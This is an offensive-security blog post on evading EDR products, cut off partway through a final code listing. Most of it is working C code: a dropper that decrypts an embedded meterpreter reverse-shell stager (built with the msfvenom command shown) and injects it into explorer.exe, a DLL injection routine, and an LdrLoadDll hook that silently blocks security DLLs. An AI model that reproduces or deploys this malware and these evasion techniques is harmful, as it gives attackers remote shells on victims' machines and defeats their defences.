





Malware is an important part of an engagement, though as many security solutions are now evolving past rudimentary signature comparisons to using more advanced techniques to detect malicious activity, it is important that we as attackers understand the methods they are using and how we can avoid them.

Consider the following code I wrote for example.

```
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
#include <tlhelp32.h>

/****************************************************************************************************/
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
// cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
// xxd -i encmeter.bin
// x86_64-w64-mingw32-gcc dropper.c -o dropper.exe
unsigned char encmeter_bin[] = {
  0x6e, 0xdc, 0x5b, 0x2a, 0x59, 0xba, 0x87, 0x64, 0x3e, 0x1d, 0x15, 0xcc,
  0x55, 0x5e, 0x70, 0xdd, 0xf3, 0x57, 0x98, 0x96, 0x2a, 0xd0, 0x0f, 0xe5,
  0x5a, 0xcd, 0xab, 0x28, 0xb3, 0xda, 0xff, 0x70, 0xd5, 0x48, 0x25, 0x7f,
  0xaf, 0x87, 0x0b, 0xd4, 0xd5, 0x89, 0x44, 0xa8, 0x47, 0xc1, 0x0d, 0xce,
  0x17, 0xf3, 0x64, 0x72, 0x70, 0xd4, 0xd8, 0x5f, 0xfe, 0x66, 0xe1, 0x20,
  0x21, 0x89, 0x43, 0xf2, 0xd9, 0x95, 0x17, 0x4e, 0x96, 0xe7, 0x9a, 0xab,
  0xa8, 0x14, 0xc9, 0x85, 0x4c, 0x23, 0x5d, 0x8a, 0x24, 0xef, 0x5e, 0x3b,
  0xe7, 0x14, 0x74, 0x65, 0x6a, 0x20, 0xe2, 0x03, 0x89, 0x84, 0xfa, 0x9d,
  0xf1, 0x97, 0x46, 0xc9, 0x50, 0xc1, 0x07, 0xf6, 0x49, 0xd1, 0x2d, 0x35,
  0x45, 0x66, 0x06, 0xf7, 0x49, 0x9b, 0xc8, 0x0b, 0x0e, 0xc1, 0x3b, 0x71,
  0x7c, 0xef, 0xbe, 0x94, 0xd5, 0x81, 0xbe, 0x5f, 0x81, 0x6c, 0x7f, 0x18,
  0x1e, 0xd7, 0x3f, 0x93, 0x0f, 0x7e, 0x09, 0x2f, 0x53, 0x6c, 0x04, 0x34,
  0x77, 0x61, 0x54, 0x56, 0x8f, 0x43, 0xd7, 0x5b, 0xc3, 0x29, 0x1e, 0x16,
  0xda, 0xf3, 0x58, 0x83, 0x8c, 0xd7, 0xf2, 0x3d, 0x4c, 0xb4, 0x3d, 0xcb,
  0x24, 0xfa, 0x84, 0x00, 0x58, 0x28, 0x96, 0xe0, 0x1b, 0x57, 0x03, 0x2e,
  0xc6, 0xc5, 0x22, 0x31, 0xc1, 0x1d, 0xe4, 0xd5, 0x8a, 0x4c, 0x79, 0x5f,
  0x83, 0x05, 0xe3, 0x73, 0x8c, 0x11, 0x9e, 0x57, 0xcf, 0x5f, 0xa9, 0x7b,
  0x26, 0xfa, 0xc3, 0xad, 0xd1, 0x2c, 0x57, 0x32, 0xbe, 0x3a, 0x41, 0x18,
  0x55, 0x87, 0x74, 0xc0, 0xbf, 0x26, 0xd8, 0x01, 0xf0, 0x15, 0xdd, 0x2b,
  0xe6, 0x35, 0x7a, 0xcc, 0x18, 0x83, 0xf4, 0xdd, 0xc9, 0x75, 0x68, 0x12,
  0x6d, 0x19, 0x10, 0x2b, 0xb6, 0x89, 0x20, 0x35, 0xd4, 0x81, 0x36, 0xe2,
  0x4d, 0xf0, 0xfb, 0x1d, 0x0f, 0xfa, 0xb6, 0x9e, 0x74, 0x2d, 0x51, 0x33,
  0x79, 0xa8, 0xc1, 0xda, 0x55, 0x14, 0x87, 0x44, 0xc2, 0x19, 0x28, 0x28,
  0x8a, 0xe9, 0x24, 0x01, 0x99, 0xae, 0xa4, 0xa1, 0xdf, 0xb1, 0xcf, 0x87,
  0x54, 0x93, 0x51, 0xcc, 0xb7, 0x02, 0x4c, 0x2e, 0xeb, 0xdc, 0x7c, 0x72,
  0xbe, 0x4b, 0x2c, 0xaa, 0x34, 0x44, 0x6f, 0xbb, 0xc5, 0x79, 0x20, 0xb9,
  0x67, 0x52, 0x1e, 0x28, 0x71, 0x40, 0x72, 0xa6, 0x5b, 0x4f, 0xa0, 0xc2,
  0x1e, 0x2e, 0x6f, 0x48, 0x16, 0x1a, 0x3a, 0xfd, 0xb5, 0x9b, 0x84, 0x3c,
  0x9c, 0x4c, 0x61, 0x63, 0xe0, 0x34, 0x57, 0x24, 0xab, 0x6c, 0x3e, 0xb3,
  0x8a, 0x02, 0x74, 0x59, 0x27, 0x20, 0x0f, 0xd5, 0x8e, 0x1e, 0x5c, 0x43,
  0x61, 0xf0, 0x4d, 0x5b, 0xb3, 0x00, 0xea, 0x18, 0xb2, 0xef, 0x43, 0x94,
  0xd8, 0x5d, 0x5d, 0x4b, 0xc6, 0xd9, 0xed, 0x2f, 0xca, 0xed, 0xe1, 0x79,
  0x0c, 0xa1, 0x46, 0x77, 0x78, 0x15, 0x87, 0x9d, 0xea, 0x9e, 0xa6, 0x8b,
  0x10, 0x29, 0x49, 0x28, 0xca, 0xc1, 0x07, 0x19, 0x9b, 0x54, 0xb2, 0x1b,
  0xd2, 0x9b, 0xbc, 0x7d, 0x9c, 0x14, 0x97, 0x43, 0x7b, 0x33, 0x41, 0xd3,
  0x26, 0x7f, 0xe9, 0xf1, 0xbf, 0xfb, 0xd8, 0xc5, 0x96, 0x19, 0x5e, 0x65,
  0xa3, 0xb1, 0x18, 0x44, 0x16, 0xc1, 0x63, 0x72, 0xc8, 0x53, 0xa5, 0x74,
  0xee, 0x2c, 0x7c, 0xe2, 0x0f, 0xe4, 0x11, 0x91, 0x4d, 0xe3, 0xa4, 0xa6,
  0xd9, 0xf0, 0x59, 0x97, 0xbb, 0x86, 0x1e, 0xc4, 0x68, 0x64, 0x4b, 0x45,
  0x00, 0xf0, 0x78, 0xac, 0x98, 0x21, 0xfe, 0xd3, 0xdd, 0xe8, 0xa3, 0xca,
  0x0d, 0x77, 0xb8, 0xab, 0x7c, 0xe2, 0x64, 0x26, 0x37, 0x76, 0x85, 0x92,
  0x91, 0x2e, 0x62, 0x25, 0x6b, 0x3e, 0xd5, 0xf2, 0xf0, 0x9a, 0xda, 0xc3,
  0x60, 0x90, 0xca, 0x00, 0x04, 0x19
};
unsigned int encmeter_bin_len = 510;
/****************************************************************************************************/

// define our imports
typedef HANDLE (WINAPI * OpenProcess_) (DWORD dwDesiredAccess, BOOL bInheritHandle, DWORD dwProcessId);
typedef LPVOID (WINAPI * VirtualAllocEx_) (HANDLE hProcess, LPVOID lpAddress, SIZE_T dwSize, DWORD flAllocationType, DWORD flProtect);
typedef WINBOOL (WINAPI * WriteProcessMemory_) (HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);
typedef HANDLE (WINAPI * CreateRemoteThread_) (HANDLE hProcess, LPSECURITY_ATTRIBUTES lpThreadAttributes, SIZE_T dwStackSize, LPTHREAD_START_ROUTINE lpStartAddress, LPVOID lpParameter, DWORD dwCreationFlags, LPDWORD lpThreadId);

BOOL DecryptShellcode()
{
    BOOL bSuccess = TRUE;

    HCRYPTKEY hCryptoKey;
    HCRYPTHASH hCryptHash;
    HCRYPTPROV hCryptoProv;

    DWORD dwLen = 16;
    BYTE* pbKey = "HideMyShellzPlz?";

    bSuccess = CryptAcquireContextW(&hCryptoProv, NULL, L"Microsoft Enhanced RSA and AES Cryptographic Provider", PROV_RSA_AES, CRYPT_VERIFYCONTEXT);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptCreateHash(hCryptoProv, CALG_SHA_256, 0, 0, &hCryptHash);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptHashData(hCryptHash, pbKey, dwLen, 0);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptDeriveKey(hCryptoProv, CALG_RC4, hCryptHash, 0,&hCryptoKey);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    bSuccess = CryptDecrypt(hCryptoKey, NULL, FALSE, 0, (BYTE*)encmeter_bin, &encmeter_bin_len);
    if (!bSuccess)
    {
        goto CLEANUP;
    }

    goto CLEANUP;

    CLEANUP:
        CryptReleaseContext(hCryptoProv, 0);
        CryptDestroyKey(hCryptoKey);
        CryptDestroyHash(hCryptHash);

        return bSuccess;
}

DWORD FindExplorer()
{
    PROCESSENTRY32 pe32 = {0};
    pe32.dwSize = sizeof(PROCESSENTRY32);

    HANDLE hSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if(hSnapshot)
    {
        if(Process32First(hSnapshot, &pe32))
        {
            do
            {
                if (strcmp(pe32.szExeFile, "explorer.exe") == 0)
                {
                    return pe32.th32ProcessID;
                }
            } while(Process32Next(hSnapshot, &pe32));
            CloseHandle(hSnapshot);
        }
    }

    return -1;
}

int main(int argc,  char const *argv[])
{
    DWORD dwPid;
    LPVOID lpBuffer;
    HANDLE hProcess, hThread;

    // resolve imports
    OpenProcess_ fnOpenProcess = (OpenProcess_)GetProcAddress(GetModuleHandle("kernel32.dll"), "OpenProcess");
    VirtualAllocEx_ fnVirtualAllocEx = (VirtualAllocEx_)GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
    WriteProcessMemory_ fnWriteProcessMemory = (WriteProcessMemory_)GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
    CreateRemoteThread_ fnCreateRemoteThread = (CreateRemoteThread_)GetProcAddress(GetModuleHandle("kernel32.dll"), "CreateRemoteThread");

    // find the pid of explorer.exe
    dwPid = FindExplorer();
    if (dwPid == -1)
    {
        printf("[!] Failed to find process\\n");
        return -1;
    }

    // get a handle on the process
    hProcess = fnOpenProcess(PROCESS_ALL_ACCESS, 0, dwPid);

    // alloc memory
    lpBuffer = fnVirtualAllocEx(hProcess, NULL, (SIZE_T)encmeter_bin_len, MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);

    // decrypt the shellcode
    if (!DecryptShellcode())
    {
        printf("[!] Failed to decrypt shellcode\\n");
        return -1;
    }

    // write the shellcode to the process
    fnWriteProcessMemory(hProcess, lpBuffer, encmeter_bin, encmeter_bin_len, NULL);

    // start the shellcode
    hThread = fnCreateRemoteThread(hProcess, NULL, 0, (LPTHREAD_START_ROUTINE)lpBuffer, NULL, 0, NULL);
    if (hThread == INVALID_HANDLE_VALUE)
    {
        printf("[!] Failed to inject shellcode\\n");
        return -1;
    }

    printf("[+] Successfully injected shellcode\\n");

    return 0;
}
```

It's an pretty basic bit of malware that will simply inject a meterpreter stager into `explorer.exe` using well known, unsophisticated methods. Despite this it will easily bypass the detection's used by major AV vendors. It's not so lucky with EDR solutions though, as within seconds there is critical alerts flying all over the place. So whats different? Why does it beat AV yet fail miserably against EDR?



One of the most common methods EDR solutions will use is API hooking, as it gives it the ability to monitor the functions being called along with the arguments being passed to them. This is a problem for the above code, as by using API hooking its possible to extract the decrypted shellcode while its still in memory but before it has been written to the process, then assess weather it is malicious or if it should be allowed to be written to the remote process.

I have written some PoC code to show how an EDR solution can hook an API call (`kernel32!WriteProcessMemory` but could be `ntdll!NtWriteVirtualMemory`) then extract the shellcode being written to a remote process.

```
#include <stdio.h>
#include <windows.h>

#define BUFFER_FILE ".\\\\wpm_buffer.bin"

// definitions
typedef WINBOOL (WINAPI * WriteProcessMemory_) (HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten);

char OrgWriteProcMem[50] = {};

BOOL RestoreHook(LPVOID lpAddr, CHAR* OrgBytes);
BOOL PlaceHook(LPVOID lpAddr, PVOID lpHookAddr, CHAR* lpSaveBytes);

BOOL hWriteProcessMemory(HANDLE hProcess, LPVOID lpBaseAddress, LPCVOID lpBuffer, SIZE_T nSize, SIZE_T *lpNumberOfBytesWritten)
{

    HANDLE hFile;
    DWORD BytesWritten;
    CHAR lpMessage[5000];

    hFile = CreateFile((LPCSTR)BUFFER_FILE, GENERIC_WRITE, 0, NULL, CREATE_NEW, FILE_ATTRIBUTE_NORMAL, NULL);
    if (hFile == INVALID_HANDLE_VALUE)
    {
        MessageBox(NULL, "CreateFile: Failed to write buffer to file", NULL, 0);
        goto CALLFUNC;
    }

    if(!WriteFile(hFile, lpBuffer, nSize, &BytesWritten, NULL))
    {
        MessageBox(NULL, "WriteFile: Failed to write buffer to file", NULL, 0);
        goto CALLFUNC;
    }

    sprintf(lpMessage, "Detected WriteProcessMemory.\\n\\nStored buffer in %s (%d bytes)", BUFFER_FILE, BytesWritten);
    MessageBox(NULL, (LPCTSTR)lpMessage, "WriteProcessMemory", 0);

    goto CALLFUNC;

    CALLFUNC:
        // close the file handle
        CloseHandle(hFile);

        // restore the function
        LPVOID lpAddr = (LPVOID)GetProcAddress(GetModuleHandle("kernel32"), "WriteProcessMemory");
        RestoreHook(lpAddr, OrgWriteProcMem);

        // call the function
        WriteProcessMemory_  cWriteProcessMemory = (WriteProcessMemory_)GetProcAddress(GetModuleHandle("kernel32"), "WriteProcessMemory");
        BOOL bRet = cWriteProcessMemory(hProcess, lpBaseAddress, lpBuffer, nSize, lpNumberOfBytesWritten);

        // place the hook back again
        PlaceHook(lpAddr, &hWriteProcessMemory, &OrgWriteProcMem);
        return bRet;
}

BOOL RestoreHook(LPVOID lpAddr, CHAR* OrgBytes)
{
    DWORD oldProtect, oldOldProtect;

    VirtualProtect(lpAddr, sizeof(OrgBytes), PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpAddr, OrgBytes, sizeof(OrgBytes));
    VirtualProtect(lpAddr, sizeof(OrgBytes), oldProtect, &oldProtect);

    return TRUE;
}

BOOL PlaceHook(LPVOID lpAddr, PVOID lpHookAddr, CHAR* lpSaveBytes)
{
    DWORD oldProtect, oldOldProtect;

    // save the bytes
    memcpy(lpSaveBytes, lpAddr, 50);

    // our trampoline
    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    // add in the address of our hook
    *(void **)(boing + 2) = lpHookAddr;

    // write the hook
    VirtualProtect(lpAddr, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpAddr, boing, sizeof(boing));
    VirtualProtect(lpAddr, 13, oldProtect, &oldProtect);

    return TRUE;
}

DWORD DoHooking()
{
    // hook WriteProcessMemory
    LPVOID lpAddr = (LPVOID)GetProcAddress(GetModuleHandle("kernel32"), "WriteProcessMemory");
    PlaceHook(lpAddr, &hWriteProcessMemory, &OrgWriteProcMem);
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch( fdwReason )
    {
        case DLL_PROCESS_ATTACH:
            DoHooking();
    }
}
```

I compiled this code as a DLL and injecting it into the above meterpreter dropper at start up (which is commonly how an EDR solution will set its API hooks). Looking at the disassembly of the `kernel32!WriteProcessMemoryStub` function in a debugger you can see that the functions code has been completely replaced and is now forcing a `jmp` to the `r11` register which holds the address of the hook (`hook!hWriteProcessMemory`).


Leading to our hook capturing the contents of the buffer


Which when then uploaded to VirusTotal shows its clearly malicious



So how can we beat this? It's possible that we could restore the functions original code, but if the EDR is performing integrity checks on its hooks then that will cause unwanted alerts when they fail. What would be best is to find a way to either prevent the DLL that places the hooks from being injected or to be able to call the hooked functions without having to get caught by the hooks.

[XPN](https://twitter.com/_xpn_) did some good [research](https://blog.xpnsec.com/protecting-your-malware/) into how you can use Process Mitigation Policy's to enforce the only Microsoft signed DLLS are allowed to be loaded into your process, or using Arbitrary Code Guard (ACG) to prevent the allocation or modification of executable pages of memory. Using ACG does look very promising, though sadly [it's possible](https://blog.sevagas.com/IMG/pdf/code_injection_series_part4.pdf) to disable ACG in a remote process with elevate privileges.

When tackling this problem I wanted to find a way to prevent the DLL from being injected, while keeping the EDR thinking that the DLL had been loaded successfully (which would not be the case when using Mitigation Policy's or ACG). To do this I figured it would be best to target the process of the DLL being mapped inside my process rather than when its getting injected into my process.

A classic DLL injection method looks like this.

```
VOID InjectDll(DWORD dwPid, LPCVOID lpDllPath)
{
    LPVOID lpBuffer;
    HANDLE hProcess, hThread;

    hProcess = OpenProcess(PROCESS_ALL_ACCESS, 0, dwPid);
    if (!hProcess)
    {
        return;
    }

    lpBuffer = VirtualAllocEx(hProcess, NULL, strlen(lpDllPath), MEM_RESERVE | MEM_COMMIT, PAGE_EXECUTE_READWRITE);
    WriteProcessMemory(hProcess, lpBuffer, lpDllPath, strlen(lpDllPath), NULL);
    PTHREAD_START_ROUTINE pLoadLib = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
    CreateRemoteThread(hProcess, NULL, 0, pLoadLib, lpBuffer, 0, NULL);

    return;
}
```

And essentially boils down to creating a thread in the process and calling `LoadLibrary` with the argument of the DLL you wish to inject. The `LoadLibrary` function is then responsible for mapping the DLL into the process. Originally I was going to target `LoadLibrary` but the problem with that is there is a few variations like `kernel32!LoadLibraryA` or `kernel32!LoadLibraryW` that the loader could use. So instead I decided to target `ntdll!LdrLoadDll` which is called by all variations of `LoadLibrary`.

The following code will hook `ntdll!LdrLoadDll` and check every DLL that is attempted to be loaded against a hard coded whitelist of DLLs that should be allowed inside our process. If its on the list it will be mapped into memory like normal. If its not on this list then it will be ignored but the function will return like it has been mapped successfully.

```
#include <stdio.h>
#include <windows.h>
#include <winternl.h>

#define dwAllowDllCount 1
CHAR cAllowDlls[dwAllowDllCount][MAX_PATH] = {
                                                "W:\\\\allowed.dll"
                                             };

VOID HookLoadDll(LPVOID lpAddr);
NTSTATUS __stdcall _LdrLoadDll(PWSTR SearchPath OPTIONAL, PULONG DllCharacteristics OPTIONAL, PUNICODE_STRING DllName, PVOID *BaseAddress);

typedef void (WINAPI * LdrLoadDll_) (PWSTR SearchPath OPTIONAL,
                                     PULONG DllCharacteristics OPTIONAL,
                                     PUNICODE_STRING DllName,
                                     PVOID *BaseAddress);

LPVOID lpAddr;
CHAR OriginalBytes[50] = {};

NTSTATUS __stdcall _LdrLoadDll(PWSTR SearchPath OPTIONAL, PULONG DllCharacteristics OPTIONAL, PUNICODE_STRING DllName, PVOID *BaseAddress)
{
    INT i;
    DWORD dwOldProtect;
    BOOL bAllow = FALSE;
    DWORD dwbytesWritten;
    CHAR cDllName[MAX_PATH];

    sprintf(cDllName, "%S", DllName->Buffer);

    for (i = 0; I < dwAllowDllCount; i++)
    {
        if (strcmp(cDllName, cAllowDlls[i]) == 0)
        {
            bAllow = TRUE;

            printf("Allowing DLL: %s\\n", cDllName);

            VirtualProtect(lpAddr, sizeof(OriginalBytes), PAGE_EXECUTE_READWRITE, &dwOldProtect);
            memcpy(lpAddr, OriginalBytes, sizeof(OriginalBytes));
            VirtualProtect(lpAddr, sizeof(OriginalBytes), dwOldProtect, &dwOldProtect);

            LdrLoadDll_ LdrLoadDll = (LdrLoadDll_)GetProcAddress(LoadLibrary("ntdll.dll"), "LdrLoadDll");

            LdrLoadDll(SearchPath, DllCharacteristics, DllName, BaseAddress);

            HookLoadDll(lpAddr);
        }

    }

    if (!bAllow)
    {
        printf("Blocked DLL: %s\\n", cDllName);
    }

    return TRUE;
}

VOID HookLoadDll(LPVOID lpAddr)
{
    DWORD oldProtect, oldOldProtect;
    void *hLdrLoadDll = &_LdrLoadDll;

    // our trampoline
    unsigned char boing[] = { 0x49, 0xbb, 0xde, 0xad, 0xc0, 0xde, 0xde, 0xad, 0xc0, 0xde, 0x41, 0xff, 0xe3 };

    // add in the address of our hook
    *(void **)(boing + 2) = &_LdrLoadDll;

    // write the hook
    VirtualProtect(lpAddr, 13, PAGE_EXECUTE_READWRITE, &oldProtect);
    memcpy(lpAddr, boing, sizeof(boing));
    VirtualProtect(lpAddr, 13, oldProtect, &oldProtect);

    return;
}

int main(int argc, char const *argv[])
{

    printf("LdrLoadDll hook example - @_batsec_\\n\\n");

    // get addresss of where the hook should be
    lpAddr = (LPVOID)GetProcAddress(GetModuleHandle("ntdll.dll"), "LdrLoadDll");

    // save the original bytes
    memcpy(OriginalBytes, lpAddr, 50);

    // set the hook
    HookLoadDll(lpAddr);

    while (TRUE)
    {
        continue;
    }

    return 0;
}
```

And as you can see when running it, `W:\\allowed.dll` to be mapped but `W:\\functionhooks.dll` is blocked.


This technique works well but the downside of it is that there is a bit of a race between how fast the hook can be placed and how fast the EDRs DLL is loaded. If the DLL is loaded before the `LdrLoadDll` hook is placed then this technique has little effect. It is also worth pointing out that if the EDR uses a non standard method of loading a DLL - like manually mapping it - this technique probably will not work. So I recommend using a mix of all these techniques as I have done in [shad0w](https://github.com/bats3c/shad0w/blob/master/beacon/lib/secure/main.c)

So preventing the DLL from being injected is good, but what about if we are in the worst case scenario and our functions have been hooked? How can we avoid these hooks, while continuing normal execution and keeping there integrity?

This is where syscalls come in. They allow you to directly call the kernel, missing out any Windows API functions. This is extremely useful as the EDRs hooks can only be placed in usermode due to [Kernel Patch Protection](https://en.wikipedia.org/wiki/Kernel_Patch_Protection) so by calling the kernel directly we can completely miss them out.

Directly calling sycalls requires a bit more effort because you have to handle everything the windows API would normally do behind the scenes. You will also have to either write and link your own assembly (it will have to be version specific because [syscall numbers change](https://j00ru.vexillium.org/syscalls/nt/64/) between windows versions) or you can dynamically resolve the syscall numbers by reading it directly from `ntdll.dll`. You can find an example of this in the implementation I [wrote for shad0w](https://github.com/bats3c/shad0w/blob/master/beacon/src/syscalls.c) or in [HellsGate](https://github.com/am0nsec/HellsGate). For more robust implementations, dynamically resolving syscalls is much better as without obfuscation it is very easy to [signature](https://twitter.com/SBousseaden/status/1291757790311133184) the syscall assembly.

The full source code for this injector can be found on my [github](https://github.com/bats3c/DefensiveInjector). Here is a snippet of the main code, it includes the `LdrLoadDll` hook and syscalls. It is worth noting that this code will only defend against userland hooks, it will trigger a Sysmon Event ID 8 as well as other things so I will leave it as a challenge for the reader to adapt this code and make it better. [This](https://github.com/bats3c/shad0w/blob/master/beacon/src/loader.c) could be of use to you if you decide to do that.

```
#include <stdio.h>
#include <windows.h>
#include <wincrypt.h>
#include <tlhelp32.h>
#include <ntdef.h>
#include <winternl.h>

#include "main.h"

/****************************************************************************************************/
// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.1.239 LPORT=4444 -f raw -o meter.bin
// cat meter.bin | openssl enc -rc4 -nosalt -k "HideMyShellzPlz?" > encmeter.bin
// xxd -i encmeter.bin
unsigned char encmeter_bin[] = {
  0x6e, 0xdc, 0x5b, 0x2a, 0x59, 0xba, 0x87, 0x64, 0x3e, 0x1d, 0x15, 0xcc,
  0x55, 0x5e, 0x70, 0xdd, 0xf3, 0x57, 0x98, 0x96, 0x2a, 0xd0, 0x0f, 0xe5,
  0x5a, 0xcd, 0xab, 0x28, 0xb3, 0xda, 0xff, 0x70, 0xd5, 0x48, 0x25, 0x7f,
  0xaf, 0x87, 0x0b, 0xd4, 0xd5, 0x89, 0x44, 0xa8, 0x47, 0xc1, 0x0d, 0xce,
  0x17, 0xf3, 0x64, 0x72, 0x70, 0xd4, 0xd8, 0x5f, 0xfe, 0x66, 0xe1, 0x20,
  0x21, 0x89, 0x43, 0xf2, 0xd9, 0x95, 0x17, 0x4e, 0x96, 0xe7, 0x9a, 0xab,
  0xa8, 0x14, 0xc9, 0x85, 0x4c, 0x23, 0x5d, 0x8a, 0x24, 0xef, 0x5e, 0x3b,
  0xe7, 0x14, 0x74, 0x65, 0x6a, 0x20, 0xe2, 0x03, 0x89, 0x84, 0xfa, 0x9d,
  0xf1, 0x97, 0x46, 0xc9, 0x50, 0xc1, 0x07, 0xf6, 0x49, 0xd1, 0x2d, 0x35,
  0x45, 0x66, 0x06, 0xf7, 0x49, 0x9b, 0xc8, 0x0b, 0x0e, 0xc1, 0x3b, 0x71,
  0x7c, 0xef, 0xbe, 0x94, 0xd5, 0x81, 0xbe, 0x5f, 0x81, 0x6c, 0x7f, 0x18,
  0x1e, 0xd7, 0x3f, 0x93, 0x0f, 0x7e, 0x09, 0x2f, 0x53, 0x6c, 0x04, 0x34,
  0x77, 0x61, 0x54, 0x56, 0x8f, 0x43, 0xd7, 0x5b, 0xc3, 0x29, 0x1e, 0x16,
  0xda, 0xf3, 0x58, 0x83, 0x8c, 0xd7, 0xf2, 0x3d, 0x4c, 0xb4, 0x3d, 0xcb,
  0x24, 0xfa, 0x84, 0x00, 0x58, 0x28, 0x96, 0xe0, 0x1b, 0x57, 0x03, 0x2e,
  0xc6, 0xc5, 0x22, 0x31, 0xc1, 0x1d, 0xe4, 0xd5, 0x8a, 0x4c, 0x79, 0x5f,
  0x83, 0x05, 0xe3, 0x73, 0x8c, 0x11, 0x9e, 0x57, 0xcf, 0x5f, 0xa9, 0x7b,
